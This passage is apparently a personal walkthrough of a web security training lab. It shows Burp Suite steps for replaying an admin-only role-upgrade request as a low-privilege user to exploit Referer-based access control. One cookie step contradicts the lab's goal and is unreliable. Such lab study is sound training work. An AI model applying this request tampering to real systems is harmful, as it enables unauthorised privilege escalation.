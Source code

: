 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514202654.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514202721.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514202810.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514202838.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220514202909.png)

### Referer-based access control
```bash

# This lab controls access to certain admin functionality based on the Referer header. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

# To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 

Log in as administrator:admin
Go to: "Admin Panel"
Intercept is on
Upgrade the username "carlos" to administrator
Send to repeater
Intercept is off
Go to: "Log out"
Log in as wiener:peter
Go to: HTTP History

GET /my-account HTTP/1.1

Copy the cookie for username "wiener"

Go to: Repeater

Change:

GET /admin-roles?username=carlos&action=upgrade HTTP/1.1

To

GET /admin-roles?username=wiener&action=upgrade HTTP/1.1

Change the cookie to reflect the username "carlos"

Note the response:

HTTP/1.1 302 Found

```
